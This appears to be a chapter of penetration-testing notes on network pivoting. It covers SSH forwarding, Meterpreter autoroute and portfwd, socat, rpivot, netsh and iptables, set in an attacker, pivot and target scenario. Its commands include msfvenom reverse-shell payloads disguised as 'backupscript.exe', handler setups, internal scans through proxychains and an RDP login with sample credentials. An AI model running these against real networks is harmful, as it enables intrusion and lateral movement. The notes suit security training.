
\section{SSH Port Forwarding}
SSH port forwarding is a feature of SSH protocol that allows client and server
to forward additional network connections using base SSH session as a secure,
encrypted and compressed (for improved performance) tunnel.

SSH port forwarding is just a specific SSH-based implementation of a
bigger concept: port forwarding in general helps you get around rigid network
and firewall structures by allowing bi-directional specific network
connectivity via certain network ports. 

SSH port forwarding involves establishing an SSH tunnel between two or more
systems and then configuring the systems to transmit a specified type of
traffic through that connection.

\subsection{Local port forwarding}
Local port forwarding is used to make an external resource available on the
local network.  For example a SQL server only allowing localhost connexion


Local forwarding is used to forward a port from the client machine to the
server machine. Basically, the SSH client listens for connections on a
configured port, and when it receives a connection, it tunnels the connection
to an SSH server. The server connects to a configurated destination port,
possibly on a different machine than the SSH server.

\begin{verbatim}
ssh -L $L_PORT:localhost:R_PORT $LOGIN@$R_HOST

netstat -antp | grep $L_PORT
lsof -i | egrep '\<ssh\>'
lsof -i -n | egrep '\<ssh\>'

nmap -v -sV -p$L_PORT localhost
\end{verbatim}

{\emph Autossh} is a tool that can be used to create persistent SSH tunnels. The only
prerequisite is that you need to have public key authentication configured
between your systems unless you want to be prompted for a password every time
the connection dies and is re-established.

\subsection{Dynamic port forwarding}

Dynamic port forwarding, also called This is called \emph{SSH tunneling over SOCKS
proxy}, sets up a SOCKS proxy server. You can configure
applications to connect to the proxy and transmit all data through it. The most
common use for this is for private web browsing or to make your connection
seemingly originate from a different country or location.

\begin{figure}
  
\includegraphics[width=\linewidth]{misc/pivoting/images/dynamic_ssh.png}
  \caption{Dynamic port forwarding}
  \label{fig:dynamic_port_ssh}
\end{figure}


\begin{verbatim}
ssh -D $L_PORT $LOGIN@$R_HOST
\end{verbatim}

\href{https://github.com/haad/proxychains}{proxychains} ProxyChains is a UNIX
program, that hooks network-related libc functions in dynamically linked
programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or
HTTP proxies.

edit \verb+/etc/proxychains.conf+:
\begin{verbatim}
socks4 	127.0.0.1 $L_PORT
\end{verbatim}


Then it is possible to route traffic of application not allowing proxy usage
such as nmap metsaploit, xfreerdp
\begin{verbatim}
proxychains nmap -v -sn 172.16.5.1-200
proxychains msfconsole
proxychains xfreerdp /v:$TARGET /u:$LOGIN /p:$PASSWORD
\end{verbatim}

 One more important note to remember here is that we can only perform a
 \emph{full TCP connect} (\verb+sT+) scan over proxychains.

\subsection{Remote port forwarding}
Remote port forwarding is the exact opposite. An SSH tunnel is established, but
the remote system is able to access your local network.


Usefull  to get a reverse shell through a pivot tunnel.

see \verb+GatewayPorts+ config.

\begin{verbatim}
ssh -R $R_IP:$R_PORT:$L_IP:$L_PORT $LOGIN@$P_IP -vN
\end{verbatim}

if \verb+RIP+ (or \verb+0.0.0.0+) is omited will listen on all IP


\subsection{SSH Server-Side Config}
The \verb+AllowTcpForwarding+ option in the OpenSSH server configuration file
must be enabled on the server to allow port forwarding. By default, forwarding
is allowed. Possible values for this option are \verb+yes+ or \verb+all+ to
allow all TCP forwarding, \verb+no+ to prevent all TCP forwarding, \verb+local+
to allow local forwardings, and \verb+remote+ to allow remote forwardings.

Another option of interest is \verb+AllowStreamLocalForwarding+, which can be
used to forward Unix domain sockets. It allows the same values as
AllowTcpForwarding. The default is \verb+yes+.

The \verb+GatewayPorts+ configuration option also affects remote port
forwardings. Possible values were \verb+no+ (only local connections from server
host allowed; default), \verb+yes+ (anyone on the Internet can connect to
remote forwarded ports), and \verb+clientspecified+ (client can specify an IP address that can connect, anyone can if not specified).


\verb+PermitOpen+ can be used to specify the destinations to which port forwarding is allowed. If you only want to allow forwarding to certain IP addresses or hostnames, use this directive. 

\subsection{Low latency}

The only real problem that arises with SSH port forwarding is that there is
usually a bit of latency.  The problem becomes more apparent when doing
network-intensive activities, especially with port forwarding set up as a SOCKS proxy server.

The reason for the latency is because SSH is tunneling TCP over TCP. This is a
terribly inefficient way to transfer data and will result in slower network
speeds.

There is a program called \href{https://github.com/sshuttle/sshuttle}{sshuttle} that corrects the issue. It also remove the
need to configure proxychains.

Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host.

iTo use sshuttle, specify the option \verb+-r+ to connect to the remote machine
with a username and password. Then we include the network or IP we want to
route through the pivot host (for example the network 172.16.5.0/23).

With this command, sshuttle creates an entry in our iptables to redirect all
traffic to the 172.16.5.0/23 network through the pivot host.

\begin{verbatim}
sudo sshuttle -r $USER@RIP -x 172.16.5.0 -vv
\end{verbatim}

\section{Meterpreter Tunneling and Port Forwarding}

scenario :
\begin{itemize}
    \item attacker: 10.10.14.18
    \item pivot: (10.10.x.x, 172.16.5.129)
    \item target: 172.16.5.19
\end{itemize}


\subsection{Dynamic port forwarding}
With a meterpreter session on the pivot host

\begin{verbatim}
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
\end{verbatim}

Configuring MSF's SOCKS Proxy

\begin{verbatim}
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
# confirm
jobs
\end{verbatim}

After initiating the SOCKS server,configure proxychains
(\verb+/etc/proxychains.conf+) to route traffic generated by other tools like
Nmap through the pivot.

Finally, tell socks proxy module to route all the traffic via
Meterpreter session with the \verb+post/multi/manage/autoroute+ module to add
routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

\begin{verbatim}
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
\end{verbatim}

It is also possible to add routes with autoroute by running autoroute from the
Meterpreter session.

\begin{verbatim}
meterpreter > run autoroute -s 172.16.5.0/23

# list active routes
meterpreter > run autoroute -p
\end{verbatim}

testing
\begin{verbatim}
 proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
\end{verbatim}


\subsection{Local port forwarding}
Request Meterpreter to forward all the packets received on this port via 
Meterpreter session to a remote host on the 172.16.5.0/23 network.

Creating Local TCP Relay: attacker host port 3300 to  target (172.16.5.19) 3389
port thu pivot host runing the meterpreter.

\begin{verbatim}
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
\end{verbatim}

validate 
\begin{verbatim}
xfreerdp /v:127.0.0.1:3300 /u:victor /p:pass@123
\end{verbatim}

\subsection{Remote port forwarding}
Create a reverse port forward on existing shell from the previous scenario to
forwards all connections on port 1234 running on the pivot to attack host on local port 8081.

\begin{verbatim}
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
meterpreter > bg
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
sf6 exploit(multi/handler) > run

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

\end{verbatim}


\section{Socat pivoting}

\subsection{With reverse shell}

\begin{verbatim}
socat TCP4-LISTEN:$P_PORT,fork TCP4:$L_IP:$L_PORT
\end{verbatim}

\begin{verbatim}
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$P_IP -f exe -o
backupscript.exe LPORT=$P_PORT
\end{verbatim}

\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
\end{verbatim}

\subsection{With bind shell}


\begin{verbatim}
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe
LPORT=$TPORT
\end{verbatim}


\begin{verbatim}
socat TCP4-LISTEN:$PPORT,fork TCP$TIP:$TPORT
\end{verbatim}



\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST $PIP
msf6 exploit(multi/handler) > set LPORT PPORT
msf6 exploit(multi/handler) > ru
\end{verbatim}

\section{SSH for Windows}

\href{https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html}{Plink},
short for PuTTY Link, is a Windows command-line SSH tool that comes as a part
of the PuTTY package when installed. Similar to SSH, Plink can also be used to
create dynamic port forwards and SOCKS proxies.

\begin{verbatim}
plink -D $LPORT $user@$PIP
\end{verbatim}

Another Windows-based tool called \href{https://www.proxifier.com/}{Proxifier}
can be used to start a SOCKS tunnel via the SSH session created. 


\section{Web Server Pivoting}


\href{https://github.com/klsecservices/rpivot}{Rpivot} is a reverse SOCKS proxy
tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a
corporate network to an external server and exposes the client's local port on
the server-side. 

Running server.py from the Attack Host
\begin{verbatim}
server.py --proxy-port $LPORT --server-port $SPORT --server-ip 0.0.0.0
\end{verbatim}

Running client.py from Pivot Target
\begin{verbatim}
client.py --server-ip $LIP --server-port $SPORT
\end{verbatim}


\begin{verbatim}
proxychains firefox-esr $TIP:$TPORT
\end{verbatim}

\section{Port Forwarding with Windows Netsh}

\href{https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts}{Netsh}
is a Windows command-line tool that can help with the network
configuration of a particular Windows system Firewall rule
\begin{verbatim}
# Allow inbound traffic flow on port 4444/TCP
netsh advfirewall firewall add rule 
    name="Allow L_PORT" dir=in action=allow protocol=TCP localport=L_PORT
\end{verbatim}

Port forward:
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=PPORT \
    connectaddress=$TIP connectport=$TPORT
# Verify
netsh.exe interface portproxy show v4tov4
\end{verbatim}

clean:
\begin{verbatim}
netsh advfirewall firewall delete rule 
    name="Allow 4444" protocol=TCP localport=4444
netsh interface portproxy show v4tov4
\end{verbatim}

netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8443

for incoming (nmap\ldots)
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=IP_P listenport=L_PORT \
    connectaddress=IP_T connectport=T_PORT
\end{verbatim}


\section{Port Forwarding with Linux iptables}

\begin{verbatim}
 iptables -t nat -A PREROUTING -p tcp --dport 4445 -j DNAT --to-destination target:445
\end{verbatim}
\subsection{ Tunnel as http proxy with ncat}

ncat can be setup as an http proxy which can be used similar to a socks proxy.
Just run the ncat proxy on the target machine, and update the local proxychains
config to use an http proxy.

Unfortunately, ncat is almost never going to be installed by default on a
target machine, unless someone has also installed nmap there.

\subsection{Target machine}
setup ncat listener
\begin{verbatim}
ncat -vv --listen 3128 --proxy-type http
\end{verbatim}

\subsection{attacker machine}
\begin{verbatim}
tail /etc/proxychains.conf -n 3
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 172.21.0.3  3128 # 172.21.0.3 is the IP of my ssh machine

proxychains nmap -sT -P0 -p8080,9001 172.20.0.2
\end{verbatim}

